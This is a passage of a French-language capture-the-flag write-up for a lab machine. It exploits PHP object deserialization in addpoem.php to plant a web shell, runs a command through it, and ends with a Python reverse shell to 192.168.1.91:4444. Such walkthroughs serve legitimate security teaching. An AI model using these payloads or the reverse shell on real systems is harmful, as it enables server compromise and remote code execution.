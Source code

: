 Cependant elle est encodée. On va donc utiliser un décodeur en ligne pour retrouver une URL plus lisible :

```
http://dev.ceng-company.vm/addpoem.php?data=O:4:"Poem":3:{s:8:"poemName";s:5:"shell";s:10:"isPoetrist";O:8:"poemFile":2:{s:8:"filename";s:23:"/var/www/html/poem.txt";s:8:"poemName";s:5:"shell";}s:9:"poemLines";s:21:"shell";}
```

On peut ensuite retourner sur la page ``http://ceng-company.vm/poem.txt`` pour visualiser le poème qu'on vient d'ajouter.

On peut voir plusieurs champs intéressants dans le *json* qui est envoyé via l'URL. Notamment le chemin où est enregistré le poème.

Il suffit de modifier l'URL à plusieurs reprises avec des champs différents pour savoir quel est le contenu qui est enregistré dans le fichier. 

On s'aperçoit que c'est le second champ nommé **poemName** qui est inséré dans lke fichier. 

Grâce à ces informations on va pouvoir tenter d'ajouter au fichier des données qui nous permettent d'obtenir un shell sur la machine cible.


De ce fait, si on tente par exemple d'écrire du texte dans un autre fichier que poem.txt alors on pourra y accéder.

Attention cependant, lors du changement des données dans l'URL il faut bien faire attention de changer également la taille de la chaine spécifier par ``s:TAILLE``.

On va donc essayer d'insérer du code php dans un fichier qu'on nommera ``shell.php`` pour pouvoir exécuter du code :

```
http://dev.ceng-company.vm/addpoem.php?data=O:4:"Poem":3:{s:8:"poemName";s:5:"shell";s:10:"isPoetrist";O:8:"poemFile":2:{s:8:"filename";s:23:"/var/www/html/shell.php";s:8:"poemName";s:42:"<?php system($_GET['cmd']);?>";}s:9:"poemLines";s:21:"shell";}
```

On se retrouve alors avec le chemin : ``/var/www/html/shell.php`` et ce qui va être écrit dans le fichier : ``<?php system($_GET['cmd']);?>``.

Si on tente de se rendre à l'URL ``http://ceng-company.vm/shell.php`` et qu'on ajoute le paramètre ``cmd=COMMAND`` en remplaçant **COMMAND** par la commande à exécuter alors on voit bien qu'on arrive à communiquer directement avec le serveur.

```
http://ceng-company.vm/shell.php?cmd=id
```
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


On peut alors obtenir un shell sur la machine grâce au reverse shell suivant (il faut bien se mettre en écoute sur notre machine auparavant) : 

```
http://ceng-company.vm/shell.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.91",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
